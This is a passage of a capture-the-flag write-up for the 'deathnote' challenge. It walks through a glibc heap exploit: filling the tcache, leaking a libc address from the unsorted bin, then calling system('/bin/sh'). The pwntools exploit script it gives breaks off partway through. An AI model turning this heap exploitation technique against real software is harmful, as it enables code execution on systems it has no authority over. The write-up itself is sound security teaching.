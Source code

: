 ```py:exploit.py
# fill tcache
for i in range(10): alloc(0x7f, i, "ashfaq-the-goat")
for i in range(7): free(i)
```

What this will do; is allocate `10` elements, and then free `0x7` of those, so that the tcache for `0x7f` is full, if we analyze bins in gdb, we can see:

![alt text](/static/writeups/htb-cyberapocalypse/image-6.png)

Now we'll free `chunk 7`, and when we show that chunk, we'll see that we have a leak of libc's arena:

![alt text](/static/writeups/htb-cyberapocalypse/image-7.png)

We'll parse and clean the input as follows:

```py:exploit.py
# get libc-leak from unsorted-bin
free(7)
leak = show(7)
libc_leak = fixleak(leak)

info("got libc leak @  %#x" % libc_leak)
```

Let's analyze and find the offset of this leak in gdb:

![alt text](/static/writeups/htb-cyberapocalypse/image-8.png)

![alt text](/static/writeups/htb-cyberapocalypse/image-9.png)

We can see that offset of this leak from the base is: `0x21ace0`. Now, the last thing we need to do is:

- Write address of libc.system to the `0th` index
- Write `"/bin/sh"` to `1st` index so that when `(*idx0)(param_1[1])` invoked, we get a `system("/bin/sh")`

The final exploit is:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)
fixleak = lambda l: unpack(l[:-1].ljust(8, b"\x00"))

exe = "./deathnote"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main\nb *_+140\nb *_+299")

def alloc(sz, page, data, ln=False):
    io.sendline(b"1")
    io.sendlineafter(b"request?", encode(sz))
    io.sendlineafter(b"Page?", encode(page))
    if ln: io.sendlineafter(b"victim:", encode(data))
    else: io.sendafter(b"victim:", encode(data))
    io.recvlines(5) # clean the stdout

def free(page):
    io.sendline(b"2")
```